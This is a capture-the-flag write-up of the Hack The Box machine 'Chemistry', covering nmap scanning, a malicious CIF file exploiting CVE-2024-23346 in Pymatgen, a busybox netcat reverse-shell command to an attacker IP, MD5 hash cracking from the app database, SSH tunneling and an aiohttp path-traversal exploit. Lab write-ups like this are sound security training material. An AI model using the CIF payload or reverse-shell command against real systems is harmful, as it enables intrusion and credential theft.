 <br><br>
**Platform : Hack The Box**

**Box : Chemistry**

**Difficulty : Easy**

**OS : Linux**

<br><br>

The inital nmap scans reveals two ports open, 22 and 5000.

<br><br>

`$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)` 
`5000/tcp open upnp?` 
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.`

`<---SNIP--->`


<br><br>

The application hosted on the box at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.

<br><br>

![Pasted image 20241023002915-1](https://github.com/user-attachments/assets/b84120fa-fbe7-4534-844a-105686aa94f8)

<br><br>

Surfing the web i find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All you need to do is craft a malicious .cif file, and then inject the command you want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> data_Example
>
> audit_creation_date            2018-06-08
> 
> _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
> 
> loop
> 
> parent_propagation_vector.id
> 
> _parent_propagation_vector.kxkykz
> 
> k1 [0 0 0]
> 
> 
> _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("<INSERT_PAYLOAD>");0,0,0'
> 
> 
> 
> _space_group_magn.number_BNS  62.448
> 
> _space_group_magn.name_BNS  "P  n'  m  a'  "
> 
> 

<br><br>

Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, i find the right one to be:

<br><br>

> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows me to gain a reverse shell:

<br><br>

![Pasted image 20241023004209-1](https://github.com/user-attachments/assets/863f5c8e-9fd9-4335-832c-3b353981df40)


<br><br>

Checking the app's directory, i'm able to retrieve the .db database that has stored all the *users passwords md5 hashes*, encoded with the following algorythm, as i can read in the *app.py* file.

<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>

![Pasted image 20241023010333-1](https://github.com/user-attachments/assets/4d608551-6f3c-4efa-aa7f-12c6edfd4eac)

<br><br>

![Pasted image 20241023010740-1](https://github.com/user-attachments/assets/23efb1d7-f3bc-4c83-90d7-86ee6a9ee831)

<br><br>

A quick hop to https://crackstation.net reveals me the cleartext password of rosa's user:

<br><br>

![Pasted image 20241102202421](https://github.com/user-attachments/assets/f75f982e-c7e4-4475-aaef-a51aa3d913ff)

<br><br>

I get an initial foothold on the machine. I have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>

Running linpeas.sh on the machine, i find out a *service listening on port 8080*, localhost

<br><br>

![Pasted image 20241023012150-2](https://github.com/user-attachments/assets/e23684f0-94c2-458f-bc70-886c0c5d34ca)

<br><br>

To enumerate this service, i make up an *SSH tunneling* to our remote host, using the following command:

<br><br>

`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>

This forwards *my local* 8080 port  to the remote machine's local 8080 port. 

<br>

(Attacking Box 127.0.0.1:8080 ----> Victim Box 127.0.0.1:8080)

<br>

It basically means that i can direct external traffic, like a scan or even access the service from a browser if possible, to an internal service on a remote machine that otherwise would be accessible only from the box itself.
Nmap shows me that Chemistry is running *aiohttp 3.9.1*

<br><br>

![Pasted image 20241102200205](https://github.com/user-attachments/assets/cf5b4ec4-b9b7-4c90-b592-e9532b9966f0)

<br><br>

and this is the first result if i search it on google:

<br><br>

https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. I'm going to modify a bit the script to make it run on *my* localhost's port 8080 and redirecting the exploit to the internal service, trying to read *root's flag*. 

<br><br>

![Pasted image 20241102200634](https://github.com/user-attachments/assets/ade0fe67-0d57-48da-a028-0c308f1ffe52)

<br><br>

And...

<br><br>

![Pasted image 20241102201153](https://github.com/user-attachments/assets/40bfecd8-d215-4b34-abe2-ae06e139e189)

<br><br>

Success! I have partial root access that can be leveraged to a shell and eventual full compromise of the box!
